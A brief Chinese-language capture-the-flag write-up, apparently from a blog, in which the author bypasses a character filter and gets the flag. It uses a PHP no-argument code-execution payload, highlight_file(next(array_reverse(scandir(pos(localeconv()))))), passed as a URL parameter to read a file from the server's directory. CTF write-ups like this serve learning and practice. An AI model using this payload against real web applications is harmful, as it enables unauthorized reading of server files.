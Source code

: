 ![upload successful](./images/pasted-267.png)
过滤了很多，看了一下CSDN上别人的解法

构造payload:
<code>/?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));</code>

![upload successful](./images/pasted-268.png)
拿到flag
